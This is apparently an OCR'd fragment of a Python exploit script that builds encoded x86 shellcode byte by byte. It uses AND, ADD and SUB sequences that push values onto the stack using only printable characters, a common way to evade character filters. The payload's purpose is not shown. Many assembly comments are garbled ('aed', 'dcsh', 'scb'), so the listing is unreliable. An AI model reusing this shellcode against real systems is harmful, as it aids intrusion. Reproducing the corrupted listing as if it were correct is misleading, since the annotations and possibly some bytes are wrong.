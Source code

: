 ```python
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x16\x15\x13\x12" ## add  eax, 0x12131516
shellcode += "\x05\x05\x04\x14\x01" ## add  eax, 0x01140405
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x62\x73\x23\x54" ## add  eax, 0x54237362
shellcode += "\x05\x52\x72\x14\x54" ## add  eax, 0x54147252
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x67\x33\x36\x66" ## add  eax, 0x66363367
shellcode += "\x05\x56\x22\x35\x55" ## add  eax, 0x55352256
shellcode += "\x05\x65\x22\x36\x44" ## add  eax, 0x44362265
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x56\x37\x55\x42" ## add  eax, 0x42553756
shellcode += "\x05\x55\x27\x55\x42" ## add  eax, 0x42552755
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x17\x37\x33\x16" ## add  eax, 0x16333717
shellcode += "\x05\x26\x36\x32\x15" ## add  eax, 0x15323626
shellcode += "\x05\x15\x25\x32\x14" ## add  eax, 0x14322515
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x44\x46\x67\x71" ## add  eax, 0x71674644
shellcode += "\x05\x44\x45\x56\x61" ## add  eax, 0x61564544
shellcode += "\x05\x43\x33\x45\x51" ## add  eax, 0x51453343
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x62\x76\x44\x66" ## add  eax, 0x66447662
shellcode += "\x05\x62\x65\x43\x55" ## add  eax, 0x55436562
shellcode += "\x05\x42\x54\x33\x64" ## add  eax, 0x64335442
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x76\x14\x66\x67" ## add  eax, 0x67661476
shellcode += "\x05\x65\x24\x55\x66" ## add  eax, 0x66552465
shellcode += "\x05\x56\x14\x44\x45" ## add  eax, 0x45441456
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x33\x65\x70\x77" ## add  eax, 0x77706533
shellcode += "\x05\x42\x54\x70\x67" ## add  eax, 0x67705442
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x54\x26\x72\x43" ## add  eax, 0x43722654
shellcode += "\x05\x44\x15\x61\x33" ## add  eax, 0x33611544
shellcode += "\x05\x44\x23\x52\x32" ## add  eax, 0x32522344
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
```
